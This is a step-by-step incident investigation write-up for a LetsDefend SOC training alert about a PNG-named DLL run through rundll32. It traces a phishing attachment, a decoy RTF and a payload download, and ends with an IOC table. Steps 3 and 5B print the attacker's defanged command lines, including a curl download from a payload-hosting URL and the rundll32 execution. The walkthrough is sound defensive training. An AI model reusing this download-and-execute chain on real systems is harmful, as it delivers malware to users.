




# SOC319 Investigation Walkthrough

LetsDefend - Suspicious DLL Execution Detected - EventID: 297

## Quick Investigation Map

| Step | Where to look | Question to answer |
| --- | --- | --- |
| 1 | Alert details | What behavior triggered SOC319? |
| 2 | Log Management | What executed around the alert time? |
| 3 | Process command lines | Was a payload downloaded or executed? |
| 4 | Email evidence / analyst notes | Where did the suspicious file originate? |
| 5 | ANY.RUN or sandbox evidence | Does dynamic behavior confirm the chain? |
| 6 | IOC extraction | Which artifacts should be reported and hunted? |
| 7 | Case conclusion | Is this benign, suspicious, or malicious? |

## Investigation Lines

We can tackle the investigation from 2 approaches:

- SIEM: use Monitoring, Log Management, email, network, and external sandbox sources to clarify what happened and how the activity started.

- Machine: connect to the endpoint and rebuild the same timeline from local Windows event logs, Sysmon/EDR telemetry if available, file-system traces and Defender evidence.

## Walkthrough Steps

## Step 1 - Start with the SOC319 Alert

### Evidence to capture

- Alert name and EventID 297.

- The suspicious behavior: a PNG-named file loading as a DLL.

- The affected endpoint or host shown in the alert.

| Why it matters: The alert tells you the investigation theme: the suspicious point is not just a file name, but a file with an image extension being loaded like a DLL. |
| --- |



*Figure 1: Alert context and initial SOC319 details.*

## Step 2 - Pivot to Log Management

| Where to look: Use Log Management and filter by the affected host around September 9 at approximately 10:17. |
| --- |

### Actions

1. Filter on the affected host from the alert.

1. Use a narrow time window around the alert first, then expand if needed.

1. Look for process creation, command-line, file execution, and parent-child process evidence.

### Evidence to capture

- Execution of a fake document-related file.

- References to the extracted attachment path or the name perspiciatism.

- Command lines that run document[.]rtf, curl[.]exe, WINWORD[.]EXE, or rundll32.



*Figure 2: Log Management evidence around the alert time.*

## Step 3 - Rebuild the Process Chain

### Actions

1. Check commands around the time of the alert, before and after.

1. Check whether the commands show a decoy document and background payload activity.

1. Pay attention to file extensions that do not match execution behavior.

## Command Chain to Recognize

```text
cmd /c data\document[.]rtf
cmd[.]exe /c curl[.]exe --output c:\wnd\3291[.]png --url hxxps://yourunitedlaws[.]com/mrD/4462
"C:\Program Files\Microsoft Office\Office16\WINWORD[.]EXE" /n "C:\Users\LetsDefend\Downloads\perspiciatism\PERSPICIATISM\data\document[.]rtf" /o ""
rundll32 c:\wnd\3291[.]png,GetModuleProp
C:\Program Files\Microsoft Office\Office16\WINWORD[.]EXE
```

| Why it matters: Opening a document from cmd. The chain also shows both user-facing deception and payload execution. curl[.]exe retrieves the payload, WINWORD[.]EXE opens the decoy, and rundll32 executes the PNG-named file. |
| --- |

## Step 4 - Validate the Origin

| Where to look: Email security, find the original email |
| --- |

### Actions

1. Search for the sender: support@mail[.]westcapitalreserve[.]com

1. Confirm whether the suspicious file came from an email attachment or downloaded archive.

1. Connect the attachment name to the path used by the executed file.

### Evidence to capture

- Attachment name: perspiciatism[.]zip.

- Extracted path containing perspiciatism and PERSPICIATISM.

- Decoy document path: data\document[.]rtf.

| Why it matters: This step explains initial access. Without origin validation, you only know what executed; with it, you can explain how the user likely received the payload. |
| --- |



*Figure 3: Email Security containing the logged suspicious email.*

## Step 5 - Validate Behavior with Sandbox Evidence

| Where to look: Use ANY.RUN or the provided sandbox evidence for perspiciatism[.]zip.<br>Any run analysis |
| --- |

### Actions

1. Open the sandbox result for the attachment.

1. Unzip file and explore the content.

1. Execute the malicious executable.

1. Check process behavior, file drops, network requests, and command execution.

1. Confirm whether the sandbox shows a decoy document plus background DLL loading.

### Evidence to capture

- The archive or executable opens a decoy document.

- The background activity downloads a payload from yourunitedlaws[.]com.

- The downloaded 3291[.]png behaves like a DLL payload, not a normal image.

| Why it matters: Sandbox validation is useful because it independently confirms the same behavior seen in the endpoint logs. This reduces the chance that the finding is based on one artifact only. <br>Note: The fact that nothing is triggered in a sandbox does not guarantee that the file is benign. Malware can detect sandboxed environments, delay execution, require specific user interaction, depend on external conditions, or behave differently across runs. |
| --- |


*Figure 4: ANY.RUN analysis*


*Figure 4: Any run analysis*

## Step 5B - Rebuild the Same Case from Machine Logs

The SIEM path gives a fast investigation view, but the same conclusion should also be reproducible from the endpoint. On the machine, the objective is to prove the same sequence locally: attachment or extracted folder, decoy document, payload download, and rundll32 execution of the PNG-named payload.

### How to filter Event Viewer

- Open Event Viewer and go to Windows Logs > Security.

- Use Filter Current Log and set the incident time window around September 9, 2024 10:17.

- Filter for Event IDs 4688 and 4689. Event ID 4688 is the key event because it records process creation.

- 4688 - A new process has been created

- 4689 - A process has exited

- Review New Process Name, Creator Process Name, and Process Command Line for each event.

### Key commands proved by Event ID 4688

```text
"C:\Program Files\7-Zip\7zG[.]exe" x -o"C:\Users\LetsDefend\Downloads\perspiciatism\PERSPI...\" ...
"C:\Users\LetsDefend\Downloads\perspiciatism\PERSPI... \Open_Document[.]exe"
cmd[.]exe /c md c:\wnd
curl[.]exe --output c:\wnd\3291[.]png --url hxxps://yourunitedlaws[.]com/mrD/4462
"C:\Program Files\Microsoft Office\Office16\WINWORD[.]EXE" /n "...data\document[.]rtf" /o ""
rundll32 c:\wnd\3291[.]png,GetModuleProp
```

### Endpoint evidence sequence

The endpoint evidence supports this local timeline:

- Chrome download history shows perspiciatism[.]zip was downloaded.

- 7zG[.]exe extracts the archive into the user's Downloads path.

- Open_Document[.]exe is launched from the extracted folder.

- Open_Document[.]exe starts cmd[.]exe.

```text
cmd[.]exe launches curl[.]exe to download c:\wnd\3291[.]png from yourunitedlaws[.]com.
cmd[.]exe launches WINWORD[.]EXE to open data\document[.]rtf as the decoy document.
```

- Open_Document[.]exe launches rundll32 to execute c:\wnd\3291[.]png,GetModuleProp.

Why this matters: Event ID 4688 proves parent-child process relationships and command lines from the endpoint itself. In this case, it confirms that the fake document executable launched the commands that created the working folder, downloaded the PNG-named payload, opened the decoy document, and executed the payload through rundll32.

<!-- TODO: add screenshot 08 here. Source image appeared at DOCX block 114. -->

*Figure 5: Chrome download history showing perspiciatism[.]zip downloaded on September 9, 2024.*

<!-- TODO: add screenshot 09 here. Source image appeared at DOCX block 116. -->

*Figure 6: Event Viewer filter scoped to Security events 4688 and 4689 around the incident window.*

<!-- TODO: add screenshot 10 here. Source image appeared at DOCX block 118. -->

*Figure 7: Event ID 4688 showing 7zG[.]exe extracting perspiciatism[.]zip into the Downloads path.*

<!-- TODO: add screenshot 11 here. Source image appeared at DOCX block 120. -->

*Figure 8: Event ID 4688 showing Open_Document[.]exe launched from the extracted perspiciatism folder.*

<!-- TODO: add screenshot 12 here. Source image appeared at DOCX block 122. -->

*Figure 9: Event ID 4688 showing Open_Document[.]exe launching cmd[.]exe.*

<!-- TODO: add screenshot 13 here. Source image appeared at DOCX block 124. -->

*Figure 10: Event ID 4688 showing cmd[.]exe launching curl[.]exe to download 3291[.]png from yourunitedlaws[.]com.*

<!-- TODO: add screenshot 14 here. Source image appeared at DOCX block 126. -->

*Figure 11: Event ID 4688 showing cmd[.]exe launching WINWORD[.]EXE to open the decoy document[.]rtf.*

<!-- TODO: add screenshot 15 here. Source image appeared at DOCX block 128. -->

*Figure 12: Event ID 4688 showing Open_Document[.]exe launching rundll32 to execute c:\wnd\3291[.]png,GetModuleProp.*

## Step 6 - Extract and Defang IOCs

After the execution chain is understood, extract only the artifacts that are useful for reporting, hunting, and blocking. Defang them before publishing or sharing.

| IOC type | Indicator | Use in investigation |
| --- | --- | --- |
| Domain | yourunitedlaws[.]com | Payload-hosting domain. |
| URL | hxxps://yourunitedlaws[.]com/mrD/4462 | Payload download URL. |
| Attachment | perspiciatism[.]zip | Likely initial delivery artifact. |
| Decoy file | document[.]rtf | Document opened to distract the user. |
| Downloaded file | 3291[.]png | PNG-named DLL payload. |
| Execution utility | rundll32 | Windows binary used to execute the payload. |
| Export name | GetModuleProp | Function passed to rundll32. |

## Step 7 - Reach the Final Verdict

The correct conclusion is that the alert is a true positive. The evidence is not just a suspicious file name; it is a complete behavior chain: suspicious attachment, fake document execution, remote payload download, and rundll32 execution of a PNG-named file.

## Playbook

- Windows machine

- Determine the type of Defense Evasion Techniques involving modification or disabling of security measures: Hijack execution flow

In this case, rundll32.exe is used to execute code from a file named 3291.png. Although the file appears to be an image, the command line treats it like a DLL by calling the exported function GetModuleProp. This is suspicious because a PNG file should not be executed through rundll32.

This behavior indicates masquerading through a misleading file extension and abuse of a legitimate Windows utility. However, based on the available evidence, it does not prove DLL side-loading or Hijack Execution Flow, because no legitimate application is shown unintentionally loading a malicious DLL through its normal DLL search path.
